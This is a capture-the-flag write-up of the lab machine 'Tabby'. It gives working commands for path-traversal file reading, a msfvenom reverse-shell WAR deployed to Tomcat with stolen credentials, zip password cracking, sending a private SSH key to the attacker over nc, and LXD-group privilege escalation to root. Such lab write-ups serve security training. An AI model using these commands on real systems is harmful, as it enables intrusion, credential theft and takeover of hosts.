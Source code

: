 # TABBY

### User Flag

```
user@kali:~$ nmap -T5 -p- 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 10:38 CEST
Warning: 10.10.10.194 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.194
Host is up (0.10s latency).
Not shown: 64707 closed ports, 824 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 516.94 seconds
```

Looking at the source code of the webpage at port 80, we find a reference to `http://10.10.10.194/news.php?file=statement`. Because the syntax, it looks like we can read files using the `file` field with the php file. This is known as LFI (local file inclusion). We can try to read a public accesible file:

```
user@kali:~$ wget "http://10.10.10.194/news.php?file=../../../../proc/cpuinfo" -O cpuinfo
Connecting to 10.10.10.194:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2194 (2.1K) [text/html]
Saving to: 'cpuinfo'
```

We need to include `..\` as many time as needed until we have a match.

We find tomcat 9.0.31 in port 8080. If we look at the webpage (`http://10.10.10.194:8080`), we find that there a file where users are defined. According to this page, the file is at `/etc/tomcat9/tomcat-users.xml`. If we use `news.php` to read it we will fail. After some research, it looks like the file `tomcat-users.xml` is at a different location. According to [this page](https://ubuntu.pkgs.org/20.04/ubuntu-universe-amd64/tomcat9_9.0.31-1_all.deb.html), the file is at:

```
user@kali:~$ wget "http://10.10.10.194/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml" -O tomcat-users.xml
```

Inside the file we will find the user and password of the tomcat admin:

```
user: tomcat
password: $3cureP4s5w0rd123!
```

If we log into the `http://10.10.10.194:8080/manager/` page using the creedentials, it complains that we have not enough privilege. We can log into the `http://10.10.10.194:8080/host-manager/`. We can't upload a malicious war file using the webpage itself, but we can do so using `curl` ([reference](https://stackoverflow.com/questions/48173104/curl-deployment-of-versioned-war-on-tomcat)). Thus, we craft the war file and upload it to the server.

```
user@kali:~$ msfvenom -p java/shell_reverse_tcp LHOST=IP_ADRESS LPORT=4444 -f war > shell.war
user@kali:~$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/dr_noob'
```

We listen with `nc` and load `http://10.10.10.194:8080/dr_noob` webpage:

```
user@kali:~$ nc -lnvvvp 4444
listening on [any] 4444 ...
connect to [10.10.14.85] from (UNKNOWN) [10.10.10.194] 36142
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$
```

The next step is to log in as root as a normal user.

```
tomcat@tabby:/var/www/html/files$ grep 'bash' /etc/passwd
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Doing a bit of research in the filesystem, we find interesting files at the root directory of the http server.

```
tomcat@tabby:/var/www/html/files$ ls -l
total 28
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement
```

If we download the backup (using `nc`), we find that it's protected using a password. We can try to crack the password:

```
user@kali:~$ sudo zip2john 16162020_backup.zip > secret.hash
user@kali:~$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt secret.hash
```

The password of the zip file is: `admin@it`. Because the zip file is owned by `ash`, we may think that the password is the same for the `ash` user.

```
tomcat@tabby:/var/www/html/files$ su -l ash
su -l ash
Password: admin@it

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### Root flag

Running a bunch of scripts to scalate privileges, we find that `ash` is in the `lxd` group (linux containers) and it looks like we are able to manage containers with this user. I found a webpage explaining [how to exploit LXD](https://shenaniganslabs.io/2019/05/21/LXD-LPE.html). The only requisite is to be in the `lxd` group.

First, I will connect to the machine using SSH instead of using the previous dummy terminal. In this machine, password authentication is disabled.

```
ash@tabby:~$ grep PasswordAuthentication /etc/ssh/sshd_config
grep PasswordAuthentication /etc/ssh/sshd_config
#PasswordAuthentication yes
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
PasswordAuthentication no
```

But we are still able to connect using SSH keys.

```
ash@tabby:~$ ssh-keygen
...
ash@tabby:~$ cat .ssh/id_rsa.pub > .ssh/authorized_keys
ash@tabby:~$ chmod 664 .ssh/authorized_keys
ash@tabby:~$ cat .ssh/id_rsa | nc MY_IP_ADRESS 5000
```

```
user@kali:~$ nc -lnvvvp 5000 > ash_key
user@kali:~$ chmod 400 ash_key
user@kali:~$ ssh -i ash_key ash@10.10.10.194
```

And we are good to go.

In the webpage I mentioned before, the first step is to launch a container. We can't do so in the first place, because the machine has no internet connection. We can [download an image](https://uk.images.linuxcontainers.org/images/) and upload to it the server.

```
user@kali:~$ wget "https://uk.images.linuxcontainers.org/images/ubuntu/bionic/amd64/cloud/20201011_07:42/lxd.tar.xz"
user@kali:~$ wget "https://uk.images.linuxcontainers.org/images/ubuntu/bionic/amd64/cloud/20201011_07:42/rootfs.squashfs"
user@kali:~$ scp -i ash_key lxd.tar.xz ash@10.10.10.194:~
user@kali:~$ scp -i ash_key rootfs.squashfs ash@10.10.10.194:~
```

I found [how to import the image](https://blog.simos.info/using-distrobuilder-to-create-container-images-for-lxc-and-lxd/), so I just do the same:

```
ash@tabby:~$ lxd init
ash@tabby:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias dr_noob
ash@tabby:~$ lxc launch dr_noob
```

We need to find out the id of the container to exploit it with [lxd_rootv2.py](https://github.com/initstring/lxd_root/blob/master/lxd_rootv2.py).


```
ash@tabby:~$ lxd ls
```

In my case, it was `concise-pipefish`. Download `lxd_rootv2.py` and exploit:

```
ash@tabby:~$ python3 lxd_rootv2.py concise-pipefish

                    lxd_root (version 2)
//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/lxd_root   ||
\\=========[]==========================================//

[+] Starting container concise-pipefish
Error: Common start logic: The container is already running
[+] Proxying the systemd socket into the container
Device container_sock added to concise-pipefish
[+] Proxying it back out to the host
Device host_sock added to concise-pipefish
[+] Sending command: systemctl link /tmp/evil.service
[+] Sending command: systemctl daemon-reload
[+] Sending command: systemctl start evil.service
[+] Sending command: systemctl disable evil.service
[+] Cleaning up some temporary files
Device host_sock removed from concise-pipefish
Device container_sock removed from concise-pipefish
[+] All done! Enjoy your new sudo super powers
ash@tabby:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
